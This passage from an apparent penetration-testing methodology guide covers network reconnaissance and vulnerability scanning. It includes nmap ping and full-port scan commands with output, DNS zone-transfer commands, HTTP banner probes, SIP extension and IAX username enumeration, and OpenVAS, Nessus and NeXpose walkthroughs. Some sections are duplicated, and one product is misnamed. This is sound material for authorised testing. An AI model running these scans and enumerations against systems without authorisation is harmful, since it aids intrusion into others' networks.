    PORT      STATE SERVICE
    135/tcp   open  msrpc
    445/tcp   open  microsoft-ds
    554/tcp   open  rtsp
    2869/tcp  open  icslap
    3389/tcp  open  ms-term-serv
    5000/tcp  open  upnp
    5001/tcp  open  commplex-link
    5002/tcp  open  rfe
    5003/tcp  open  filemaker
    5004/tcp  open  avt-profile-1
    5357/tcp  open  wsdapi
    10243/tcp open  unknown

    Nmap done: 1 IP address (1 host up) scanned in 287.05 seconds

SNMP Sweeps
'''''''''''

SNMP sweeps are performed too as they offer tons of information about a
specific system. The SNMP protocol is a stateless, datagram oriented
protocol. Unfortunately SNMP servers don't respond to requests with
invalid community strings and the underlying UDP protocol does not
reliably report closed UDP ports. This means that "no response" from a
probed IP address can mean either of the following:

-  machine unreachable
-  SNMP server not running
-  invalid community string
-  the response datagram has not yet arrived

SNMPEnum (Linux)


SNMPEnum is a perl script that sends SNMP requests to a single host,
then waits for the response to come back and logs them.

`Screenshot Here <:File:Penetration_Testing_Execution_37.png>`__

SMTP Bounce Back
''''''''''''''''

SMTP bounce back, also called a Non-Delivery Report/Receipt (NDR), a
(failed) Delivery Status Notification (DSN) message, a Non-Delivery
Notification (NDN) or simply a bounce, is an automated electronic mail
message from a mail system informing the sender of another message about
a delivery problem. This can be used to assist an attacker in
fingerprint the SMTP server as SMTP server information, including
software and versions, may be included in a bounce message.

Banner Grabbing
'''''''''''''''

Banner Grabbing is an enumeration technique used to glean information
about computer systems on a network and the services running its open
ports. Banner grabbing is used to identify network the version of
applications and operating system that the target host are running.

Banner grabbing is usually performed on Hyper Text Transfer Protocol
(HTTP), File Transfer Protocol (FTP), and Simple Mail Transfer Protocol
(SMTP); ports 80, 21, and 25 respectively. Tools commonly used to
perform banner grabbing are Telnet, nmap, and Netcat.

HTTP


::

    JUNK / HTTP/1.0

    HEAD / HTTP/9.3

    OPTIONS / HTTP/1.0

    HEAD / HTTP/1.0

Internal Footprinting
~~~~~~~~~~~~~~~~~~~~~

The Internal Footprinting phase of Intelligence Gathering involves
gathering response results from a target based upon direct interaction
from an internal perspective. The goal is to gather as much information
about the target as possible.

Active Footprinting
^^^^^^^^^^^^^^^^^^^

The active footprinting phase of Intelligence Gathering involves
gathering response results from a target based upon direct interaction.

Ping Sweeps
'''''''''''

Active footprinting begins with the identification of live systems. This
is usually performed by conducting a Ping sweep to determine which hosts
respond.

Nmap (Windows/Linux)


Nmap ("Network Mapper") is the de facto standard for network
auditing/scanning. Nmap runs on both Linux and Windows. Nmap is
available in both command line and GUI versions. For the sake of this
document, we will only cover the command line.

::

    Nmap 5.51 ( http://nmap.org )
    Usage: nmap [Scan Type(s)] [Options] {target specification}
    TARGET SPECIFICATION:
      Can pass hostnames, IP addresses, networks, etc.
      Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
      -iL <inputfilename>: Input from list of hosts/networks
      -iR <num hosts>: Choose random targets
      --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
      --excludefile <exclude_file>: Exclude list from file
    HOST DISCOVERY:
      -sL: List Scan - simply list targets to scan
      -sn: Ping Scan - disable port scan
      -Pn: Treat all hosts as online -- skip host discovery
      -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
      -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
      -PO[protocol list]: IP Protocol Ping
      -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
      --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
      --system-dns: Use OS's DNS resolver
      --traceroute: Trace hop path to each host
    SCAN TECHNIQUES:
      -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
      -sU: UDP Scan
      -sN/sF/sX: TCP Null, FIN, and Xmas scans
      --scanflags <flags>: Customize TCP scan flags
      -sI <zombie host[:probeport]>: Idle scan
      -sY/sZ: SCTP INIT/COOKIE-ECHO scans
      -sO: IP protocol scan
      -b <FTP relay host>: FTP bounce scan
    PORT SPECIFICATION AND SCAN ORDER:
      -p <port ranges>: Only scan specified ports
        Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
      -F: Fast mode - Scan fewer ports than the default scan
      -r: Scan ports consecutively - don't randomize
      --top-ports <number>: Scan <number> most common ports
      --port-ratio <ratio>: Scan ports more common than <ratio>
    SERVICE/VERSION DETECTION:
      -sV: Probe open ports to determine service/version info
      --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
      --version-light: Limit to most likely probes (intensity 2)
      --version-all: Try every single probe (intensity 9)
      --version-trace: Show detailed version scan activity (for debugging)
    SCRIPT SCAN:
      -sC: equivalent to --script=default
      --script=<Lua scripts>: <Lua scripts> is a comma separated list of
               directories, script-files or script-categories
      --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
      --script-trace: Show all data sent and received
      --script-updatedb: Update the script database.
    OS DETECTION:
      -O: Enable OS detection
      --osscan-limit: Limit OS detection to promising targets
      --osscan-guess: Guess OS more aggressively
    TIMING AND PERFORMANCE:
      Options which take <time> are in seconds, or append 'ms' (milliseconds),
      's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
      -T<0-5>: Set timing template (higher is faster)
      --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
      --min-parallelism/max-parallelism <numprobes>: Probe parallelization
      --min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
          probe round trip time.
      --max-retries <tries>: Caps number of port scan probe retransmissions.
      --host-timeout <time>: Give up on target after this long
      --scan-delay/--max-scan-delay <time>: Adjust delay between probes
      --min-rate <number>: Send packets no slower than <number> per second
      --max-rate <number>: Send packets no faster than <number> per second
    FIREWALL/IDS EVASION AND SPOOFING:
      -f; --mtu <val>: fragment packets (optionally w/given MTU)
      -D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys
      -S <IP_Address>: Spoof source address
      -e <iface>: Use specified interface
      -g/--source-port <portnum>: Use given port number
      --data-length <num>: Append random data to sent packets
      --ip-options <options>: Send packets with specified ip options
      --ttl <val>: Set IP time-to-live field
      --spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
      --badsum: Send packets with a bogus TCP/UDP/SCTP checksum
    OUTPUT:
      -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
         and Grepable format, respectively, to the given filename.
      -oA <basename>: Output in the three major formats at once
      -v: Increase verbosity level (use -vv or more for greater effect)
      -d: Increase debugging level (use -dd or more for greater effect)
      --reason: Display the reason a port is in a particular state
      --open: Only show open (or possibly open) ports
      --packet-trace: Show all packets sent and received
      --iflist: Print host interfaces and routes (for debugging)
      --log-errors: Log errors/warnings to the normal-format output file
      --append-output: Append to rather than clobber specified output files
      --resume <filename>: Resume an aborted scan
      --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
      --webxml: Reference stylesheet from Nmap.Org for more portable XML
      --no-stylesheet: Prevent associating of XSL stylesheet w/XML output
    MISC:
      -6: Enable IPv6 scanning
      -A: Enable OS detection, version detection, script scanning, and traceroute
      --datadir <dirname>: Specify custom Nmap data file location
      --send-eth/--send-ip: Send using raw ethernet frames or IP packets
      --privileged: Assume that the user is fully privileged
      --unprivileged: Assume the user lacks raw socket privileges
      -V: Print version number
      -h: Print this help summary page.
    EXAMPLES:
      nmap -v -A scanme.nmap.org
      nmap -v -sn 192.168.0.0/16 10.0.0.0/8
      nmap -v -iR 10000 -Pn -p 80
    SEE THE MAN PAGE (http://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES

Nmap has dozens of options available. Since this section is dealing with
port scanning, we will focus on the commands required to perform this
task. It is important to note that the commands utilized depend mainly
on the time and number of hosts being scanned. The more hosts or less
time that you have to perform this tasks, the less that we will
interrogate the host. This will become evident as we continue to discuss
the options.

| To perform a ping sweep you would want to utilize the following
  command:

::

    nmap -sn <nowiki><</nowiki>client ip range<nowiki>></nowiki>/<nowiki><</nowiki>CIDR<nowiki>></nowiki> or <nowiki><</nowiki>Mask<nowiki>></nowiki>

::

    nmap -sn 10.25.0.0/24

    Starting Nmap 5.51 ( http://nmap.org ) at 2011-04-22 22:58 Eastern Daylight Time

    Nmap scan report for 10.25.0.1
    Host is up (0.0030s latency).
    MAC Address: C0:C1:C0:09:5C:16 (Unknown)
    Nmap scan report for 10.25.0.111
    Host is up (0.013s latency).
    MAC Address: A8:E3:EE:97:3D:46 (Sony Computer Entertainment)
    Nmap scan report for 10.25.0.113
    Host is up.
    Nmap scan report for 10.25.0.119
    Host is up (0.018s latency).
    MAC Address: 00:14:6C:B4:3A:93 (Netgear)
    Nmap done: 256 IP addresses (4 hosts up) scanned in 6.19 seconds

Alive6 (Linux)


| Alive6, which is part of the THC IPv6 Attack Toolkit, offers the most
  effective mechanism for detecting all IPv6 systems.
|  `Screenshot Here <:File:Penetration_Testing_Execution_39.png>`__

Alive6 offers numerous options, but can be simply run by just specifying
the interface. This returns all the IPv6 systems that are live on the
local-link.

`Screenshot Here <:File:Penetration_Testing_Execution_40.png>`__

Port Scanning
'''''''''''''

Nmap (Windows/Linux)


Nmap ("Network Mapper") is the de facto standard for network
auditing/scanning. Nmap runs on both Linux and Windows. Nmap is
available in both command line and GUI versions. For the sake of this
document, we will only cover the command line.

::

    Nmap 5.51 ( http://nmap.org )
    Usage: nmap [Scan Type(s)] [Options] {target specification}
    TARGET SPECIFICATION:
      Can pass hostnames, IP addresses, networks, etc.
      Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
      -iL <inputfilename>: Input from list of hosts/networks
      -iR <num hosts>: Choose random targets
      --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
      --excludefile <exclude_file>: Exclude list from file
    HOST DISCOVERY:
      -sL: List Scan - simply list targets to scan
      -sn: Ping Scan - disable port scan
      -Pn: Treat all hosts as online -- skip host discovery
      -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
      -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
      -PO[protocol list]: IP Protocol Ping
      -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
      --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
      --system-dns: Use OS's DNS resolver
      --traceroute: Trace hop path to each host
    SCAN TECHNIQUES:
      -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
      -sU: UDP Scan
      -sN/sF/sX: TCP Null, FIN, and Xmas scans
      --scanflags <flags>: Customize TCP scan flags
      -sI <zombie host[:probeport]>: Idle scan
      -sY/sZ: SCTP INIT/COOKIE-ECHO scans
      -sO: IP protocol scan
      -b <FTP relay host>: FTP bounce scan
    PORT SPECIFICATION AND SCAN ORDER:
      -p <port ranges>: Only scan specified ports
        Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
      -F: Fast mode - Scan fewer ports than the default scan
      -r: Scan ports consecutively - don't randomize
      --top-ports <number>: Scan <number> most common ports
      --port-ratio <ratio>: Scan ports more common than <ratio>
    SERVICE/VERSION DETECTION:
      -sV: Probe open ports to determine service/version info
      --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
      --version-light: Limit to most likely probes (intensity 2)
      --version-all: Try every single probe (intensity 9)
      --version-trace: Show detailed version scan activity (for debugging)
    SCRIPT SCAN:
      -sC: equivalent to --script=default
      --script=<Lua scripts>: <Lua scripts> is a comma separated list of
               directories, script-files or script-categories
      --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
      --script-trace: Show all data sent and received
      --script-updatedb: Update the script database.
    OS DETECTION:
      -O: Enable OS detection
      --osscan-limit: Limit OS detection to promising targets
      --osscan-guess: Guess OS more aggressively
    TIMING AND PERFORMANCE:
      Options which take <time> are in seconds, or append 'ms' (milliseconds),
      's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
      -T<0-5>: Set timing template (higher is faster)
      --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
      --min-parallelism/max-parallelism <numprobes>: Probe parallelization
      --min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
          probe round trip time.
      --max-retries <tries>: Caps number of port scan probe retransmissions.
      --host-timeout <time>: Give up on target after this long
      --scan-delay/--max-scan-delay <time>: Adjust delay between probes
      --min-rate <number>: Send packets no slower than <number> per second
      --max-rate <number>: Send packets no faster than <number> per second
    FIREWALL/IDS EVASION AND SPOOFING:
      -f; --mtu <val>: fragment packets (optionally w/given MTU)
      -D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys
      -S <IP_Address>: Spoof source address
      -e <iface>: Use specified interface
      -g/--source-port <portnum>: Use given port number
      --data-length <num>: Append random data to sent packets
      --ip-options <options>: Send packets with specified ip options
      --ttl <val>: Set IP time-to-live field
      --spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
      --badsum: Send packets with a bogus TCP/UDP/SCTP checksum
    OUTPUT:
      -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
         and Grepable format, respectively, to the given filename.
      -oA <basename>: Output in the three major formats at once
      -v: Increase verbosity level (use -vv or more for greater effect)
      -d: Increase debugging level (use -dd or more for greater effect)
      --reason: Display the reason a port is in a particular state
      --open: Only show open (or possibly open) ports
      --packet-trace: Show all packets sent and received
      --iflist: Print host interfaces and routes (for debugging)
      --log-errors: Log errors/warnings to the normal-format output file
      --append-output: Append to rather than clobber specified output files
      --resume <filename>: Resume an aborted scan
      --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
      --webxml: Reference stylesheet from Nmap.Org for more portable XML
      --no-stylesheet: Prevent associating of XSL stylesheet w/XML output
    MISC:
      -6: Enable IPv6 scanning
      -A: Enable OS detection, version detection, script scanning, and traceroute
      --datadir <dirname>: Specify custom Nmap data file location
      --send-eth/--send-ip: Send using raw ethernet frames or IP packets
      --privileged: Assume that the user is fully privileged
      --unprivileged: Assume the user lacks raw socket privileges
      -V: Print version number
      -h: Print this help summary page.
    EXAMPLES:
      nmap -v -A scanme.nmap.org
      nmap -v -sn 192.168.0.0/16 10.0.0.0/8
      nmap -v -iR 10000 -Pn -p 80
    SEE THE MAN PAGE (http://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES

Nmap has dozens of options available. Since this section is dealing with
port scanning, we will focus on the commands required to perform this
task. It is important to note that the commands utilized depend mainly
on the time and number of hosts being scanned. The more hosts or less
time that you have to perform this tasks, the less that we will
interrogate the host. This will become evident as we continue to discuss
the options.

| Based on IP set being assessed, you would want to scan the both TCP
  and UDP across port range to 1-65535. The command that will be
  utilized is as follows:

::

    nmap -A -PN -sU -sS -T2 -v -p 1-65535 <nowiki><</nowiki>client ip range<nowiki>></nowiki>/<nowiki><</nowiki>CIDR<nowiki>></nowiki> or <nowiki><</nowiki>Mask<nowiki>></nowiki> -oA NMap_FULL_<nowiki><</nowiki>client ip range<nowiki>></nowiki>

::

    nmap -A -PN -sU -sS -T2 -v -p 1-65535 client.com -oA NMap_FULL_client

    Starting Nmap 5.51 ( http://nmap.org ) at 2011-04-22 22:27 Eastern Daylight Time

    NSE: Loaded 57 scripts for scanning.
    Initiating Parallel DNS resolution of 1 host. at 22:27
    Completed Parallel DNS resolution of 1 host. at 22:27, 0.10s elapsed
    Initiating SYN Stealth Scan at 22:27
    Scanning client.com (74.117.116.73) [65535 ports]
    Discovered open port 80/tcp on 74.117.116.73

| On large IP sets, those greater than 100 IP addresses do not specify a
  port range. The command that will be utilized is as follows:

::

    nmap -A -O -PN <nowiki><</nowiki>client ip range<nowiki>></nowiki>/<nowiki><</nowiki>CIDR<nowiki>></nowiki> or <nowiki><</nowiki>Mask<nowiki>></nowiki> -oA NMap_<nowiki><</nowiki>client ip range<nowiki>></nowiki>

::

    nmap -A -O -PN client.com -oA NMap_client

    Starting Nmap 5.51 ( http://nmap.org ) at 2011-04-22 22:37 Eastern Daylight Time

    Nmap scan report for client.com (74.117.116.73)
    Host is up (0.13s latency).
    rDNS record for 74.117.116.73: 74-117-116-73.parked.com
    Not shown: 999 filtered ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.2.3 ((CentOS))
    | http-robots.txt: 2 disallowed entries
    |_/click.php /ud.php
    |_http-title: client.com
    |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
    |_http-favicon: Parked.com domain parking
    Warning: OSScan results may be unreliable because we could not find at least 1 o
    pen and 1 closed port
    Device type: general purpose
    Running (JUST GUESSING): Linux 2.6.X (92%), OpenBSD 4.X (88%), FreeBSD 6.X (88%)

It should be noted that Nmap has limited options for IPv6. These include
TCP connect (-sT), Ping scan (-sn), List scan (-sL) and version
detection.

::

    nmap -6 -sT -P0 fe80::80a5:26f2:8db7:5d04%12

    Starting Nmap 5.51 ( http://nmap.org ) at 2011-04-22 22:42 Eastern Daylight Time

    Nmap scan report for lancelot (fe80::80a5:26f2:8db7:5d04)
    Host is up (1.0s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    445/tcp   open  microsoft-ds
    554/tcp   open  rtsp
    2869/tcp  open  icslap
    3389/tcp  open  ms-term-serv
    5000/tcp  open  upnp
    5001/tcp  open  commplex-link
    5002/tcp  open  rfe
    5003/tcp  open  filemaker
    5004/tcp  open  avt-profile-1
    5357/tcp  open  wsdapi
    10243/tcp open  unknown

    Nmap done: 1 IP address (1 host up) scanned in 287.05 seconds

SNMP Sweeps
'''''''''''

SNMP sweeps are performed too as they offer tons of information about a
specific system. The SNMP protocol is a stateless, datagram oriented
protocol. Unfortunately SNMP servers don't respond to requests with
invalid community strings and the underlying UDP protocol does not
reliably report closed UDP ports. This means that "no response" from a
probed IP address can mean either of the following:

-  Machine unreachable
-  SNMP server not running
-  invalid community string
-  the response datagram has not yet arrived

SNMPEnum (Linux)


SNMPEnum is a perl script that sends SNMP requests to a single host,
then waits for the response to come back and logs them.

`Screenshot Here <:File:Penetration_Testing_Execution_45.png>`__

Metasploit
''''''''''

Active footprinting can also be performed to a certain extent through
Metasploit. Please refer to the `Metasploit
Unleashed <http://www.offensive-security.com/metasploit-unleashed/Information_Gathering>`__
course for more information on this subject.

Zone Transfers
''''''''''''''

DNS zone transfer, also known as AXFR, is a type of DNS transaction. It
is a mechanism designed to replicate the databases containing the DNS
data across a set of DNS servers. Zone transfer comes in two flavors,
full (AXFR) and incremental (IXFR). There are numerous tools available
to test the ability to perform a DNS zone transfer. Tools commonly used
to perform zone transfers are host, dig and nmap.

Host


::

    host  <nowiki><</nowiki>domain<nowiki>></nowiki> <nowiki><</nowiki>DNS server<nowiki>></nowiki>

Dig


::

    dig @server domain axfr

SMTP Bounce Back
''''''''''''''''

SMTP bounce back, also called a Non-Delivery Report/Receipt (NDR), a
(failed) Delivery Status Notification (DSN) message, a Non-Delivery
Notification (NDN) or simply a bounce, is an automated electronic mail
message from a mail system informing the sender of another message about
a delivery problem. This can be used to assist an attacker in
fingerprint the SMTP server as SMTP server information, including
software and versions, may be included in a bounce message.

Reverse DNS
'''''''''''

Reverse DNS can be used to obtain valid server names in use within an
organizational. There is a caveat that it must have a PTR (reverse) DNS
record for it to resolve a name from a provided IP address. If it does
resolve then the results are returned. This is usually performed by
testing the server with various IP addresses to see if it returns any
results.

Banner Grabbing
'''''''''''''''

Banner Grabbing is an enumeration technique used to glean information
about computer systems on a network and the services running its open
ports. Banner grabbing is used to identify network the version of
applications and operating system that the target host are running.

Banner grabbing is usually performed on Hyper Text Transfer Protocol
(HTTP), File Transfer Protocol (FTP), and Simple Mail Transfer Protocol
(SMTP); ports 80, 21, and 25 respectively. Tools commonly used to
perform banner grabbing are Telnet, nmap, netcat and netca6 (IPv6).

HTTP


::

    JUNK / HTTP/1.0

    HEAD / HTTP/9.3

    OPTIONS / HTTP/1.0

    HEAD / HTTP/1.0

httprint


httprint is a web server fingerprinting tool. It relies on web server
characteristics to accurately identify web servers, despite the fact
that they may have been obfuscated by changing the server banner
strings, or by plug-ins such as mod\_security or servermask. httprint
can also be used to detect web enabled devices which do not have a
server banner string, such as wireless access points, routers, switches,
cable modems, etc. httprint uses text signature strings and it is very
easy to add signatures to the signature database.

`Screenshot Here <:File:Penetration_Testing_Execution_46.png>`__

VoIP mapping
''''''''''''

VoIP mapping is where we gather information about the topology, the
servers and the clients. The main goal here is to find live hosts, PBX
type and version, VoIP servers/gateways, clients (hardware and software)
types and versions. The majority of techniques covered here assume a
basic understanding of the *Session Initiation Protocol (SIP*). There
are several tools available to help us identify and enumerate VoIP
enabled devices. SMAP is a tool which is specifically designed to scan
for SIP enabled devices by generating SIP requests and awaiting
responses. SMAP usage is as follows:

`Screenshot Here <:File:Penetration_Testing_Execution_47.png>`__

SIPScan is another scanner for sip enabled devices that can scan a
single host or an entire subnet.

`Screenshot Here <:File:Penetration_Testing_Execution_48.png>`__

Extensions


Extensions are any client application or device that initiates a SIP
connection, such as an IP phone, PC softphone, PC instant messaging
client, or mobile device. The goal is to identify valid usernames or
extensions of SIP devices. Enumerating extensions is usually a product
of the error messages returned using the SIP method: REGISTER, OPTIONS,
or INVITE. There are many tools that can be utilized to enumerate SIP
devices. A tool that can be used to enumerate extensions is Svwar from
the SIPVicious suite.

Svwar


Svwar is also a tool from the sipvicious suite allows to enumerate
extensions by using a range of extensions or using a dictionary file
svwar supports all the of the three extension enumeration methods as
mentioned above, the default method for enumeration is REGISTER. Svwar
usage is as follows:

`Screenshot Here <:File:Penetration_Testing_Execution_49.png>`__

enumIAX


If you've identified an Asterisk server is in use, you need to utilize a
username guessing tool such as enumIAX to enumerate Asterisk Exchange
protocol usernames. enumIAX is an Inter Asterisk Exchange version 2
(IAX2) protocol username brute-force enumerator. enumIAX may operate in
two distinct modes; Sequential Username Guessing or Dictionary Attack.
enumIAX usage is as follows:

`Screenshot Here <:File:Penetration_Testing_Execution_50.png>`__

Passive Reconnaissance
''''''''''''''''''''''

Packet Sniffing


Performing packet sniffing allows for the collection IP addresses and
MAC addresses from systems that have packet traffic in the stream being
analyzed. For the most part, packet sniffing is difficult to detect and
so this form of recon is essentially passive and quite stealthy. By
collecting and analyzing a large number of packets it becomes possible
to fingerprint the operating system and the services that are running on
a given device. It may also be possible to grab login information,
password hashes, and other credentials from the packet stream. Telnet
and older versions of SNMP pass credentials in plain text and are easily
compromised with sniffing. Packet sniffing can also be useful in
determining which servers act as critical infrastructure and therefore
are of interest to an attacker.

Vulnerability Analysis
----------------------

Vulnerability Analysis is used to identify and evaluate the security
risks posed by identified vulnerabilities. Vulnerability analysis work
is divided into two areas: Identification and validation. Vulnerability
discovery effort is the key component of the Identification phase.
Validation is reducing the number of identified vulnerabilities to only
those that are actually valid.

Vulnerability Testing
~~~~~~~~~~~~~~~~~~~~~

Vulnerability Testing is divided to include both an Active and Passive
method.

Active
^^^^^^

Automated Tools
^^^^^^^^^^^^^^^

An automated scanner is designed to assess networks, hosts, and
associated applications. There are a number of types of automated
scanners available today, some focus on particular targets or types of
targets. The core purpose of an automated scanner is the enumeration of
vulnerabilities present on networks, hosts, and associated applications.

Network/General Vulnerability Scanners
''''''''''''''''''''''''''''''''''''''

Open Vulnerability Assessment System (OpenVAS) (Linux)
''''''''''''''''''''''''''''''''''''''''''''''''''''''

The Open Vulnerability Assessment System (OpenVAS) is a framework of
several services and tools offering a comprehensive and powerful
vulnerability scanning and vulnerability management solution. OpenVAS is
a fork of Nessus that allows free development of a non-proprietary tool.

Like the earlier versions of Nessus, OpenVAS consists of a Client and
Scanner. To start the Scanner, simply run openvassd from the command
line.

`Screenshot Here <:File:Penetration_Testing_Execution_51.png>`__

There are two ways in which you can run the OpenVAS Client, either the
GUI or the command line interface. Using the menu you would select on
OpenVAS Client. In the console it is "OpenVAS-Client."

`Screenshot Here <:File:Penetration_Testing_Execution_52.png>`__

Once the client starts up you will need to connect it to the scanner.

`Screenshot Here <:File:Penetration_Testing_Execution_53.png>`__

Submit in the supplied user credentials.

`Screenshot Here <:File:Penetration_Testing_Execution_54.png>`__

If you created a certificate then you supply it as well. You will then
be presented with a certificate to accept. Click yes to continue.

| `Screenshot Here <:File:Penetration_Testing_Execution_55.png>`__
| Once you accept the certificate, OpenVAS will initialize and indicate
  the number of Found and Enabled plugins. This could take a while
  depending upon the number of plugins that need to be downloaded. Also,
  you need to ensure that you've added the appropriate /etc/hosts
  entries for both the IPv4 and IPv6 address. For example:

::

    127.0.0.1       localhost

    127.0.0.1       pentest

    <nowiki>#</nowiki> The following lines are desirable for IPv6 capable hosts

    <nowiki>:</nowiki>:1     ip6-localhost ip6-loopback pentest localhost

`Screenshot Here <:File:Penetration_Testing_Execution_56.png>`__

Before scanning anything we need to configure the OpenVAS Scan Options.
The General section covers all the general scan options. See Appendix A
for the specific settings. To start a new scan, you use the Scan
Assistant.

`Screenshot Here <:File:Penetration_Testing_Execution_57.png>`__

Once the Scan Assistant launches, you'll have to provide some
information to create the task. First, you'll need to give the name of
the task. This is usually the name of the client or some other name that
describes what you're scanning. Once you've completed this, click
Forward to continue.

`Screenshot Here <:File:Penetration_Testing_Execution_58.png>`__

A scope can be seen as a sub-task. It defines a certain scan and the
title should indicate the scope of the scan such as "Internet Facing
Systems" or "Aggressive Scan of Client X". Once you've completed this,
click Forward to continue.

`Screenshot Here <:File:Penetration_Testing_Execution_59.png>`__

At this point you'll need to provide the target information. This can be
in the form of a hostname, FQDN, IP Address, Network Range, CIDR. The
only requirement is that they have to be separated with commas. Once
you've completed this, click Forward to continue.

`Screenshot Here <:File:Penetration_Testing_Execution_60.png>`__

|
| Finally, we're at the point where we can launch our scan. Click
  Execute to start the scan.

`Screenshot Here <:File:Penetration_Testing_Execution_61.png>`__

`Screenshot Here <:File:Penetration_Testing_Execution_62.png>`__

`Screenshot Here <:File:Penetration_Testing_Execution_63.png>`__

`Screenshot Here <:File:Penetration_Testing_Execution_64.png>`__

Nessus (Windows/Linux)
''''''''''''''''''''''

Nessus is a commercial automated scanning program. It is designed to
detect potential vulnerabilities on the networks, hosts, and associated
application being assessed. Nessus allows for custom policies to be
utilized for specific evaluations. For non-Web applications, the policy
that should be utilized is the "Only Safe Checks" policy (See Appendix
A). For Web applications, the policy that should be utilized is the
"Only Safe Checks (Web)" policy (See Appendix B).

To access Nessus simply enter in the correct URL into a web browser. If
you are accessing from the Pentest Lab use the following URL:
https://\ <IP ADDRESS>:8834.

|
| ''' `Screenshot Here <:File:Penetration_Testing_Execution_65.png>`__
  '''

| The credentials to access this will need to be established prior to
  attempting to access. Once you have the logged in, you will be
  presented with the Reports Interface. Prior to running any Nessus
  scan, the product should be validated to ensure that it has been
  properly updated with the latest signatures. This process is normally
  run as part of a scheduled task, but you can run click on "About"
  which will present the Windows which contains data about the
  installation.
|  `Screenshot Here <:File:Penetration_Testing_Execution_66.png>`__

The Client Build ID is quick way to ensure that Nessus has been updated.
The format is as simple as YYYYMMDD. 201110223 would mean that the
scanner was last updated on February, 23, 2011.

`Screenshot Here <:File:Penetration_Testing_Execution_67.png>`__

If the scanner has been updated within the last week, you can safely
conduct scans. If this date is further out than one week, you should
immediately report this and avoid using the scanner until Nessus has
been updated.

| Within Nessus, there are four main tabs available: Reports, Scans,
  Policies, and Users.
| ''' `Screenshot Here <:File:Penetration_Testing_Execution_68.png>`__
  '''

| To initiate a scan utilize the Scan tab. This will present you with
  several additional options such as Add, Edit, Browse, Launch, Pause,
  Stop, and Delete.
| `Screenshot Here <:File:Penetration_Testing_Execution_69.png>`__

| You will create a new scan by clicking on the "Scans" option on the
  menu bar at the top and then click on the "+ Add" button on the right.
  The "Add Scan" screen will be displayed as follows:
| ''' `Screenshot Here <:File:Penetration_Testing_Execution_70.png>`__
  '''

There are five fields to enter before starting a scan. The name field is
set to the name that will be displayed to identify the scan. The type
field allows you to choose between "Run Now" and "Template." "Run Now"
executes the scan immediately after submitting. "Template" saves the
scan as a template for repeated scans. The policy field is where the
scan policy is selected. The final two fields are both related to the
scan targets. You can either enter in the hosts (one per line) or browse
for a text file containing all the target hosts.

Once all these fields have been properly populated click "Launch Scan"
to initiate the scan process.

\ *Note:*\  Automated tools can sometimes be too aggressive by default
and need to be scaled back if the customer is affected.

A validation scan should be conducted weekly against <IP ADDRESS> using
the "Validation Scan" policy (See Appendix C) to ensure that Nessus is
performing scans in properly.

| `Screenshot Here <:File:Penetration_Testing_Execution_71.png>`__
| If you conduct a "Validation Scan" and do not receive similar results,
  then you should immediately report this and void using the scanner.

| Once the scan has completed running, it will be visible in the Reports
  tab. To open the scan reports simply double-click on the appropriate
  completed scan file. This will provide us with some information about
  the scan as well as the results.
| ''' `Screenshot Here <:File:Penetration_Testing_Execution_72.png>`__
  '''

We need to save this report for us to analyze. To do this, click on the
"Download Report." This will present a new window that allows for the
format to be specified.

''' `Screenshot Here <:File:Penetration_Testing_Execution_73.png>`__ '''

The default format is ".nessus", however it is necessary to download the
Nessus results in HTML format. This allows you to quickly review the
vulnerabilities.

NeXpose
'''''''

Nessus is a commercial automated scanning product that provides
vulnerability management, policy compliance and remediation management.
It is designed to detect vulnerabilities as well as policy compliance on
the networks, hosts, and associated web applications.

To access NeXpose simply enter in the correct URL into a web browser. If
you are accessing from the Pentest Lab use the following URL:
https://\ <IP ADDRESS>:3780/login.html.

`Screenshot Here <:File:Penetration_Testing_Execution_74.png>`__

| The credentials to access this will need to be established prior to
  attempting to access. Once you have the logged in, you will be
  presented with the dashboard Interface.
|  `Screenshot Here <:File:Penetration_Testing_Execution_75.png>`__
| Prior to running any NeXpose scan, the product should be validated to
  ensure that it has been properly updated with the latest signatures.
  This process is normally run as part of a scheduled task, but you can
  quickly validate that it the scanner is up to date by simply viewing
  the 'News' which will give you a log file of all the updates to the
  scan engine as well as any updated checks.

| `Screenshot Here <:File:Penetration_Testing_Execution_76.png>`__
